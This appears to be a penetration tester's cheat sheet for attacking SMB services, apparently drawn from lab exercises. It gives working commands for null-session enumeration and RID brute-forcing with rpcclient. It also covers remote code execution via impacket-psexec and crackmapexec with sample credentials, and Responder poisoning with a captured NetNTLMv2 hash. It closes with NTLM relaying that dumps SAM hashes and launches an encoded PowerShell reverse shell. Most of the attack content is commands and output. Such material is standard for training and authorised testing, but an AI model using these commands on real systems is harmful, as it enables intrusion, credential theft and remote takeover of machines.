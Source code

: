 #### Ports
* TCP 139 and UDP 137, 138
* TCP 445
#### Anon auth (null-session)
Most tools that interact with SMB allow null session connectivity, including `smbclient`, `smbmap`, `rpcclient`, or `enum4linux`
```bash
# -N - use null session
smbclient -N -L //10.10.14.222/
```
#### Alternative to smbclient
```bash
git clone https://github.com/SecureAuthCorp/impacket.git
```

```bash
python psexec.py username:password@hostIP
```
##### Enumerate SMB users
 ```bash
 lookupsid.py guest@10.10.11.222 -no-pass
 ```
#### smbmap
```bash
# list shared and permissions
smbmap -H 10.10.216.209

# browse files and directories recursive
smbmap -H 10.10.216.209 -r

# download
smbmap -H 10.129.14.128 --download "notes\note.txt"
# upload 
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
```
#### SMBclient
```bash
smbclient //10.10.216.209/anonymous

get logs/log1.txt
put local.txt
```
auth as user:
```bash
smbclient -U milesdyson //10.10.216.209/milesdyson
```
list shared folders:
```bash
smbclient -L \\\\10.10.18.79
```
connect and download:
```bash
λ kali ~ → smbclient  \\\\10.10.18.79\\Users
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> get gakeeper.exe
```
footprint samba
```shell
sudo nmap 10.129.14.128 -sV -sC -p139,445
```
#### RPCclient - Enumeration
```shell
rpcclient -U "" 10.129.14.128

# null-session
rpcclient -U'%' 10.10.110.17
```

|                           |                                                                    |
| ------------------------- | ------------------------------------------------------------------ |
| `srvinfo`                 | Server information.                                                |
| `enumdomains`             | Enumerate all domains that are deployed in the network.            |
| `querydominfo`            | Provides domain, server, and user information of deployed domains. |
| `netshareenumall`         | Enumerates all available shares.                                   |
| `netsharegetinfo <share>` | Provides information about a specific share.                       |
| `enumdomusers`            | Enumerates all domain users.                                       |
| `queryuser <RID>`         | Provides information about a specific user.                        |
| querygroup<br>            |                                                                    |
|                           |                                                                    |
|                           |                                                                    |
#### ENUM4LINUX 
```bash
./enum4linux-ng.py 10.129.14.128 -A -C
```
#### [[Brute Force]] User RIDs
```bash
for i in $(seq 500 1100);do rpcclient -N -U "" 10.129.14.128 -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done
```
#### Other related tools:
https://github.com/SecureAuthCorp/impacket [samrdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/samrdump.py).
https://github.com/byt3bl33d3r/CrackMapExec
# Mount share folder
```bash
sudo mount -t cifs -o username=htb-student,password=Academy_WinFun! //ipaddoftarget/"Company Data" /home/user/Desktop/
```
```bash
sudo apt-get install cifs-utils
```
# RCE
* Impacket PsExec
* Impacket SMBExec -  similar approach to PsExec without using RemComSvc.
* Impacket atexec
* CrackMapExec - includes an implementation of smbexec and atexec.
* Metasploit PsExec
#### #Impacket:
```bash
impacket-psexec administrator:'Password123!'@10.10.110.17

C:\Windows\system32>whoami && hostname
```
The same options apply to impacket-smbexec and impacket-atexec.
#### #CrackMapExec
```bash
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec

# Enumerating Logged-on Users
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```
#### Forced Authentication Attacks
We can also abuse the SMB protocol by creating a fake SMB Server to capture users' [NetNTLM v1/v2 hashes](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4).
```bash
sudo responder -I ens33

[+] Listening for events... 

[*] [NBT-NS] Poisoned answer sent to 10.10.110.17 for name WORKGROUP (service: Domain Master Browser)
[*] [NBT-NS] Poisoned answer sent to 10.10.110.17 for name WORKGROUP (service: Browser Election)
[*] [MDNS] Poisoned answer sent to 10.10.110.17   for name mysharefoder.local
[*] [LLMNR]  Poisoned answer sent to 10.10.110.17 for name mysharefoder
[*] [MDNS] Poisoned answer sent to 10.10.110.17   for name mysharefoder.local
[SMB] NTLMv2-SSP Client   : 10.10.110.17
[SMB] NTLMv2-SSP Username : WIN7BOX\demouser
[SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:997b18cc61099ba2:3CC46296B0CCFC7A231D918AE1DAE521:0101000000000000B09B5
```
If we cannot crack the hash, we can potentially relay the captured hash to another machine using impacket-ntlmrelayx https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py or Responder MultiRelay.py https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py Let us see an example using impacket-ntlmrelayx.

First, we need to set SMB to OFF in our responder configuration file (/etc/responder/Responder.conf).
```basg
cat /etc/responder/Responder.conf | grep 'SMB ='

SMB = Off
```

```bash
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
<SNIP>
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:92512f2605074cfc341a7f16e5fabf08:::
demouser:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
test:1001:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Done dumping SAM hashes for host: 10.10.110.146
```
Create reverse shell:
```bash
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <reverse shell payload in base64>'
```